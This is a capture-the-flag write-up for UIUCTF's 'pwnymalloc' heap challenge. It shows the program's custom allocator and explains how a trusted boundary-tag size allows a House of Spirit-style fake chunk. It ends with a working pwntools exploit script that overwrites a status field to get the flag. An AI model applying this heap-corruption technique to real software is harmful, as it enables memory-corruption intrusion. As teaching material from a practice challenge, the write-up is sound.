

# pwnymalloc

## Description

> Author: Akhil
>
> i'm tired of hearing all your complaints. pwnymalloc never complains.
>
> `ncat --ssl pwnymalloc.chal.uiuc.tf 1337`











## Solution

I personally took the naive approach of solving this challenge as I did not analyze much of `alloc.c` and still managed to solve it. Luckily, I managed to save time by solving it this way.

### TL;DR

* Create a fake chunk in first request
* Create fake chunk size in last 8 bytes of second request
* Fake chunk size helps to point free\_list to fake chunk during pwnyfree
* Create third request to write from fake chunk, overwrite status of second request


This is essentially House of Spirit.


### Initial Analysis



```c
#include "alloc.h"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef enum {
    REFUND_DENIED,
    REFUND_APPROVED,
} refund_status_t;

typedef struct refund_request {
    refund_status_t status;
    int amount;
    char reason[0x80];
} refund_request_t;


refund_request_t *requests[10] = {NULL};

void print_flag() {
    char flag[64];
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        puts("Flag file not found.");
        return;
    }

    fgets(flag, 64, f);
    printf("%s\n", flag);
    fclose(f);
}

void handle_complaint() {
    puts("Please enter your complaint:");
    char *trash = pwnymalloc(0x48);
    fgets(trash, 0x48, stdin);
    memset(trash, 0, 0x48);
    pwnyfree(trash);
    puts("Thank you for your feedback! We take all complaints very seriously.");
}

void handle_view_complaints() {
    puts("Oh no! Our complaint database is currently down. Please try again later.");
}

void handle_refund_request() {
    int request_id = -1;
    for (int i = 0; i < 10; i++) {
        if (requests[i] == NULL) {
            request_id = i;
            break;
        }
    }

    if (request_id == -1) {
        puts("Sorry, we are currently unable to process any more refund requests.");
    }

    refund_request_t *request = pwnymalloc(sizeof(refund_request_t));
    puts("Please enter the dollar amount you would like refunded:");
    char amount_str[0x10];
    fgets(amount_str, 0x10, stdin);
    sscanf(amount_str, "%d", &request->amount);

    puts("Please enter the reason for your refund request:");
    fgets(request->reason, 0x80, stdin);
    request->reason[0x7f] = '\0'; // null-terminate

    puts("Thank you for your request! We will process it shortly.");
    request->status = REFUND_DENIED;

    requests[request_id] = request;

    printf("Your request ID is: %d\n", request_id);
}

void handle_refund_status() {
    puts("Please enter your request ID:");
    char id_str[0x10];
    fgets(id_str, 0x10, stdin);
    int request_id;
    sscanf(id_str, "%d", &request_id);

    if (request_id < 0 || request_id >= 10) {
        puts("Invalid request ID.");
        return;
    }

    refund_request_t *request = requests[request_id];
    if (request == NULL) {
        puts("Invalid request ID.");
        return;
    }

    if (request->status == REFUND_APPROVED) {
        puts("Your refund request has been approved!");
        puts("We don't actually have any money, so here's a flag instead:");
        print_flag();
    } else {
        puts("Your refund request has been denied.");
    }
}

int main() {
    // disable buffering
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    puts("Welcome to the SIGPwny Transit Authority's customer service portal! How may we help you today>");

    while (1) {
        puts("\n1. Submit a complaint");
        puts("2. View pending complaints");
        puts("3. Request a refund");
        puts("4. Check refund status");
        puts("5. Exit\n");

        printf("> ");
        char choice_str[0x10];
        fgets(choice_str, 0x10, stdin);
        int choice;
        sscanf(choice_str, "%d", &choice);

        switch (choice) {
            case 1: 
                handle_complaint();
                break;
            case 2:
                handle_view_complaints();
                break;
            case 3:
                handle_refund_request();
                break;
            case 4:
                handle_refund_status();
                break;
            case 5:
                exit(0);
            default:
                puts("Invalid choice. Try again.");
        }
    }
}
```



```makefile
chal: main.c alloc.c
	gcc -o chal main.c alloc.c -I .

clean:
	rm -f chal

```



```c

#include <unistd.h>

void *pwnymalloc(size_t size);

void pwnyfree(void *ptr);

```



```c

#include <unistd.h>
#include <stdio.h>

#include "alloc.h"

typedef struct chunk_meta {
    size_t size;
    struct chunk_meta *next; // only for free blocks
    struct chunk_meta *prev; // only for free blocks
} chunk_meta_t;

typedef struct btag { // only for free blocks
    size_t size;
} btag_t;

typedef chunk_meta_t *chunk_ptr;


#define ALIGNMENT 16
#define ALIGN(size) (((size) + (ALIGNMENT - 1)) & ~(ALIGNMENT - 1))
#define MAX(x, y) ((x) > (y) ? (x) : (y))

#define INUSE_META_SIZE (sizeof(chunk_meta_t) - 2 * sizeof(chunk_meta_t *))
#define FREE_META_SIZE sizeof(chunk_meta_t)
#define BTAG_SIZE sizeof(btag_t)
#define MIN_BLOCK_SIZE (FREE_META_SIZE + BTAG_SIZE)

#define FREE 0
#define INUSE 1


static size_t pack_size(size_t size, int status);
static size_t get_size(chunk_ptr block);
static size_t get_prev_size(chunk_ptr block);
static void set_btag(chunk_ptr block, size_t size);
static int get_status(chunk_ptr block);
static void set_status(chunk_ptr block, int status);
static chunk_ptr next_chunk(chunk_ptr block);
static chunk_ptr prev_chunk(chunk_ptr block);

static chunk_ptr extend_heap(size_t size);
static chunk_ptr find_fit(size_t size);
static void free_list_insert(chunk_ptr block);
static void free_list_remove(chunk_ptr block);
static chunk_ptr coalesce(chunk_ptr block);
static void split(chunk_ptr block, size_t size);


static void *heap_start = NULL;
static void *heap_end = NULL;

static chunk_ptr free_list = NULL;


/**
`* Utils
`*/

static size_t pack_size(size_t size, int status) {
    return size | status;
}

static size_t get_size(chunk_ptr block) {
    return block->size & ~1;
}

static size_t get_prev_size(chunk_ptr block) {
    btag_t *prev_footer = (btag_t *) ((char *) block - BTAG_SIZE);
    return prev_footer->size;
}

static void set_btag(chunk_ptr block, size_t size) {
    btag_t *footer = (btag_t *) ((char *) block + size - BTAG_SIZE);
    footer->size = size;
}

static int get_status(chunk_ptr block) {
    return block->size & 1;
}

static void set_status(chunk_ptr block, int status) {
    block->size = (block->size & ~1) | status;
}

static chunk_ptr next_chunk(chunk_ptr block) {
    size_t size = get_size(block);
    if ((void *) block >= heap_end - size) {
        return NULL;
    }
    return (chunk_ptr) ((char *) block + size);
}

static chunk_ptr prev_chunk(chunk_ptr block) {
    if ((void *) block - get_prev_size(block) < heap_start || get_prev_size(block) == 0) {
        return NULL;
    }
    return (chunk_ptr) ((char *) block - get_prev_size(block));
}


/**
`* Core helpers
`*/


static chunk_ptr extend_heap(size_t size) {
    chunk_ptr block = (chunk_ptr) sbrk(size);
    if (block == (void *) -1) {
        return NULL;
    }

    block->size = pack_size(size, INUSE);
    heap_end = (void *) block + size;
    return block;
}


static chunk_ptr find_fit(size_t size) {
    chunk_ptr block = free_list;
    while (block != NULL) {
        if (get_size(block) >= size) {
            free_list_remove(block);
            set_status(block, INUSE);
            return block;
        }
        block = block->next;
    }
    return NULL;
}

static void free_list_insert(chunk_ptr block) {
    block->next = free_list;
    block->prev = NULL;
    if (free_list != NULL) {
        free_list->prev = block;
    }
    free_list = block;
}

static void free_list_remove(chunk_ptr block) {
    if (block->prev != NULL) {
        block->prev->next = block->next;
    } else {
        free_list = block->next;
    }

    if (block->next != NULL) {
        block->next->prev = block->prev;
    }
}

static chunk_ptr coalesce(chunk_ptr block) {
    chunk_ptr prev_block = prev_chunk(block);
    chunk_ptr next_block = next_chunk((chunk_ptr) block);
    size_t size = get_size(block);

    int prev_status = prev_block == NULL ? -1 : get_status(prev_block);
    int next_status = next_block == NULL ? -1 : get_status(next_block);

    if (prev_status == FREE && next_status == FREE) {
        free_list_remove(next_block);
        free_list_remove(prev_block);

        size += get_size(prev_block) + get_size(next_block);
        prev_block->size = pack_size(size, FREE);
        set_btag(prev_block, size);
        
        return prev_block;
    } 
    if (prev_status == FREE) {
        free_list_remove(prev_block);

        size += get_size(prev_block);
        prev_block->size = pack_size(size, FREE);
        set_btag(prev_block, size);

        return prev_block;
    } 
    if (next_status == FREE) {
        free_list_remove(next_block);

        size += get_size(next_block);
        block->size = pack_size(size, FREE);
        set_btag(block, size);

        return block;
    }

    return block;
}

static void split(chunk_ptr block, size_t size) {
    size_t old_size = get_size(block);
    size_t new_size = old_size - size;

    chunk_ptr new_block = (chunk_ptr) ((char *) block + size);
    new_block->size = pack_size(new_size, FREE);
    set_btag(new_block, new_size);

    block->size = pack_size(size, INUSE);
    
    new_block = coalesce(new_block);
    free_list_insert(new_block);
}


void *pwnymalloc(size_t size) {
    if (heap_start == NULL) {
        heap_start = sbrk(0);
        heap_end = heap_start;
    }

    if (size == 0) {
        return NULL;
    }

    size_t total_size = MAX(ALIGN(size + INUSE_META_SIZE), MIN_BLOCK_SIZE);

    chunk_ptr block = find_fit(total_size);

    if (block == NULL) {
        block = extend_heap(total_size);
        if (block == NULL) {
            return NULL;
        }
    } else if (get_size((chunk_ptr) block) >= total_size + MIN_BLOCK_SIZE) {
        split(block, total_size);
    }

    return (void *) ((char *) block + INUSE_META_SIZE);
}


void pwnyfree(void *ptr) {
    if (ptr == NULL) {
        return;
    }

    chunk_ptr block = (chunk_ptr) ((char *) ptr - INUSE_META_SIZE);

    // eheck alignment and status
    if ((size_t) block % ALIGNMENT != 0 || get_status(block) != INUSE) {
        return;
    }

    set_status(block, FREE);
    set_btag(block, get_size(block));

    block = coalesce(block);

    printf("Block size: %zu\n", get_size(block));

    free_list_insert(block);
}


```



Looking at `main.c`, we can derive that it is a "heap" challenge with a custom implemented heap based off `alloc.c`.

There are 3 main functions in play in `main.c`, namely the **handle\_complaint**, **handle\_refund\_request**, and **handle\_refund\_status**. There is also only the **print\_flag** function which gets called in the **handle\_refund\_status** if a check is passed.



```c
void handle_complaint() {
    puts("Please enter your complaint:");
    char *trash = pwnymalloc(0x48);
    fgets(trash, 0x48, stdin);
    memset(trash, 0, 0x48);
    pwnyfree(trash);
    puts("Thank you for your feedback! We take all complaints very seriously.");
}
```



```c
void handle_refund_request() {
    int request_id = -1;
    for (int i = 0; i < 10; i++) {
        if (requests[i] == NULL) {
            request_id = i;
            break;
        }
    }

    if (request_id == -1) {
        puts("Sorry, we are currently unable to process any more refund requests.");
    }

    refund_request_t *request = pwnymalloc(sizeof(refund_request_t));
    puts("Please enter the dollar amount you would like refunded:");
    char amount_str[0x10];
    fgets(amount_str, 0x10, stdin);
    sscanf(amount_str, "%d", &request->amount);

    puts("Please enter the reason for your refund request:");
    fgets(request->reason, 0x80, stdin);
    request->reason[0x7f] = '\0'; // null-terminate

    puts("Thank you for your request! We will process it shortly.");
    request->status = REFUND_DENIED;

    requests[request_id] = request;

    printf("Your request ID is: %d\n", request_id);
}
```



```c
void handle_refund_status() {
    puts("Please enter your request ID:");
    char id_str[0x10];
    fgets(id_str, 0x10, stdin);
    int request_id;
    sscanf(id_str, "%d", &request_id);

    if (request_id < 0 || request_id >= 10) {
        puts("Invalid request ID.");
        return;
    }

    refund_request_t *request = requests[request_id];
    if (request == NULL) {
        puts("Invalid request ID.");
        return;
    }

    if (request->status == REFUND_APPROVED) {
        puts("Your refund request has been approved!");
        puts("We don't actually have any money, so here's a flag instead:");
        print_flag();
    } else {
        puts("Your refund request has been denied.");
    }
}
```



### Analyzing handle\_complaint

The **handle\_complaint** function seems to call the **pwnymalloc** (custom implementation of malloc), asks for 0x48 inputs, then nulls those 0x48 inputs with memset and then calls **pwnyfree** (custom implementation of free).\
This tells us that whatever "complaint" we provide in this function would not be part of the exploit (as per the memset right after the fgets). If there is any use of this function for exploitation, then it would for exploiting a vulnerability in the **pwnyfree** function.


This is a hint that the vulnerability lies in **pwnyfree**. It lead me to think that the **coalesce** function that **pwnyfree** uses might be the vulnerable one.


### Analyzing handle\_refund\_request

The **handle\_refund\_request** function allows us to have up to 10 pwnymalloc-ed heaps. There is a vulnerability in this function where it doesn't return out of the function if the **request\_id** == -1, but i didn't had to utilize this.\
It then takes in 16 bytes and converts it into a decimal to store in **request->amount**, 0x80 bytes to store into **request->reason**, and sets **request->status** to REQUEST\_DENIED.

### Analyzing handle\_refund\_status

The **handle\_refund\_status** function is basically a check to see if we have exploited the vulnerability. It checks if **refund->status** **== REFUND\_APPROVED**. So our goal is to overwrite the **refund->status** field to be **REFUND\_APPROVED** (value of 1). We need an overwrite or an arbitrary write, this means that there would most likely be a

### Analyzing refund\_request struct

<figure><figcaption><p>refund_request structure</p></figcaption></figure>

Personally, I did not read much of `alloc.c` as I was short on time, so I relied on dynamic analysis to find the vulnerability. Therefore, I wont be doing an in depth analysis of the functions of `alloc.c`.

### Dynamic Analysis

There were very few functions in `main.c` that I can choose (only **handle\_complaint** and **handle\_refund\_request**) that would trigger a vulnerability.

Trying to send 0x7e bytes of the character "B" as a request reason then running **handle\_complaint** with any data, we can see that a segfault has been hit with the value of **RAX** being invalid.

<figure><figcaption><p>Invalid RAX segfault</p></figcaption></figure>

This segfault occurs in the **get\_status** function of `alloc.c`.

### Vulnerabilities in alloc.c



```c
static int get_status(chunk_ptr block) {
    return block->size & 1;
}
```



Looking at the **get\_status** function, since it is only 1 line, we can understand that the segfault occured because it's trying to get the **size** field of the **block** struct, but out **block** pointed to by **RAX** is an invalid address.

We can reference the call stack at the occurence of the segfault to see what called this **get\_status** function and it is indeed the **coalesce** function that called it, which is what I suspected earlier on.

<figure><figcaption><p>segfault call stack</p></figcaption></figure>

Looking at the **coalesce** function, it is clear that the **prev\_chunk** function returned us the wrong block.



```c
static chunk_ptr coalesce(chunk_ptr block) {
    chunk_ptr prev_block = prev_chunk(block);
    chunk_ptr next_block = next_chunk((chunk_ptr) block);
    size_t size = get_size(block);

    int prev_status = prev_block == NULL ? -1 : get_status(prev_block);
    int next_status = next_block == NULL ? -1 : get_status(next_block);
    ...
}
```



Looking at the **prev\_chunk** function, we can then see that the **get\_prev\_size** function is the vulnerable one as it returns the wrong size.&#x20;



```c
static chunk_ptr prev_chunk(chunk_ptr block) {
    if ((void *) block - get_prev_size(block) < heap_start || get_prev_size(block) == 0) {
        return NULL;
    }
    return (chunk_ptr) ((char *) block - get_prev_size(block));
}
```







Debugging the program in the **prev\_chunk** function, we can see that the **get\_prev\_size** function gets our last 8 bytes of our request **reason** as the **size** of the previous chunk, therefore it returns an invalid pointer to the previous chunk.

<figure><figcaption><p>controlling previous size chunk</p></figcaption></figure>

### Leveraging prev\_chunk size control

Now we can control where our previous chunk points to, so what happens if we create a fake chunk in our chunk and make our previous chunk point to our fake chunk?\
The idea is to malloc a request at our fake chunk, and this should work if this custom heap implementation is similar to the actual heap implementation where the **free\_list** would point to our fake chunk when we call **pwnyfree**.

Looking at the  **pwnyfree** function, the block pointer is only inserted into the **free\_list** based on the pointer returned to by the **coalesce** function.



```c
void pwnyfree(void *ptr) {

    ...

    block = coalesce(block);

    printf("Block size: %zu\n", get_size(block));

    free_list_insert(block);
}
```



If we look at the **coalesce** function once again, we can make the function return **prev\_block** if we ensure that the **prev\_status == FREE**, and this is based on the **get\_status** function which checks if the LSB of the chunk size is set to **0**.\
We control this chunk size so we can ensure to set the LSB to **0**.


We ignore **next\_block** and **next\_status** as we won't have a next block. We only exploit the previous block as we want to cause an overflow from the previous block.




```c
static chunk_ptr coalesce(chunk_ptr block) {
    chunk_ptr prev_block = prev_chunk(block);
    chunk_ptr next_block = next_chunk((chunk_ptr) block);
    size_t size = get_size(block);

    int prev_status = prev_block == NULL ? -1 : get_status(prev_block);
    int next_status = next_block == NULL ? -1 : get_status(next_block);

    ...
    
    if (prev_status == FREE) {
        free_list_remove(prev_block);

        size += get_size(prev_block);
        prev_block->size = pack_size(size, FREE);
        set_btag(prev_block, size);

        return prev_block;
    } 
    
    ...

}
```



```c
static int get_status(chunk_ptr block) {
    return block->size & 1;
}
```



### Controlling free\_list value

The idea now is to first create a request chunk with a fake chunk inside it that we want to insert into the **free\_list**.\
Then we create a second request chunk with a fake prev\_chunk\_size so that the code:

```c
static chunk_ptr prev_chunk(chunk_ptr block) {
    ...
    return (chunk_ptr) ((char *) block - get_prev_size(block));
}
```

points to our fake chunk.

<figure><figcaption><p>controlling free_list (chunk view)</p></figcaption></figure>

This attack is pretty much [House of Spirit](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/tcache_house_of_spirit.c) but with custom heap implementation.

Now if we submit a complaint, we can verify that the block size returned is larger than usual and the **free\_list** contains our fake chunk.

<figure><figcaption><p>Large block size</p></figcaption></figure>

<figure><figcaption><p>free_list with fake chunk</p></figcaption></figure>

Now if we try to create a request chunk, we should be able to write from the fake chunk right? \
No, a segfault appears to occur at **pwnymalloc > split > coalesce > get\_status**.

<figure><figcaption><p>segfault by pwnymalloc at get_status</p></figcaption></figure>

We can see that it is essentially the same segfault we had initially at the **pwnyfree** function during the run of the **coalesce** function; our RAX has been clobbered by my input at **request->reason** as the **coalesce** function tries to call **get\_status** on the **prev\_block** and **next\_block** of our fake chunk.

### Resolving segfault at fake chunk

To resolve this, we can debug the functions and see what blocks the **prev\_chunk** and **next\_chunk** gets.

<figure><figcaption><p>getting prev_chunk_size</p></figcaption></figure>

<figure><figcaption><p>getting next_chunk_size</p></figcaption></figure>

The **prev\_chunk** seems to get the size at **0x555555559100-8** and the next\_chunk seems to get the size at **0x555555559100**, so we just make sure that we set these values as **0x0** (since we can control them in our 2nd request reason).

After resolving this, we can try to create our 3rd request reason, and we can see that the chunk would be allocated at our fake chunk and our data would be stored there.

<figure><figcaption><p>chunk allocated at our fake chunk</p></figcaption></figure>

<figure><figcaption><p>writing at our fake chunk</p></figcaption></figure>

Now we can easily overflow into the our 2nd request chunk and overwrite the **request->status** bit to **REQUEST\_APPROVED**.

### Solve Script



```python
#!/usr/bin/env python3

from pwn import *

elf = context.binary = ELF("./chal")
url,port = "pwnymalloc.chal.uiuc.tf", 1337

if args.REMOTE:
    p = remote(url,port, ssl=True)
else:
    p = elf.process(aslr=False)

if args.GDB:
    gdb.attach(p)

def option(n):
    p.clean()
    p.sendline(str(n).encode())

# Create a fake chunk inside this chunk, which indicates a size of 0x120 with PREV_IN_USE bit unset
option(3)
p.clean()
p.sendline(b'65')
p.clean()
p.sendline(b''.ljust(0x60, b'F') + p64(0x120) + p64(0) * 2)

# Create another fake chunk inside a new chunk, indicate the chunk size of the "freed" chunk
# being bigger than it actually is (0xb0), also setting PREV_IN_USE bit unset
# This is the trick to make the freed chunk point to a chunk in between the 2 chunks
# The vulnerability is the checking of the freed chunk's size
option(3)
p.clean()
p.sendline(b'100')
p.clean()
payload = b'A' * 0x58 + p64(0)*2 + b'A'*0x10 + p64(0xb0)[:7]
p.send(payload)

# coalesce the chunks (consolidate) This causes overlapping freed chunk to be in between my two created chunks
option(1)
p.clean()
p.sendline(b'a')

# Overwrite chunk REFUND_APPROVED bit with 1
option(3)
p.clean()
p.sendline(b'100')
p.clean()
payload = p64(0) * 2 + p64(0x91) + p64(0x1)
p.sendline(payload)

option(4)
p.clean()
p.sendline(b'1')

p.interactive()
p.close()

# uiuctf{the_memory_train_went_off_the_tracks}

# 0x555555559008 - first chunk
# 0x555555558060 - requests list

"""
pdata       | size 
next        | prev 
data        | ndata
"""
```



<figure><figcaption><p>flag captured</p></figcaption></figure>
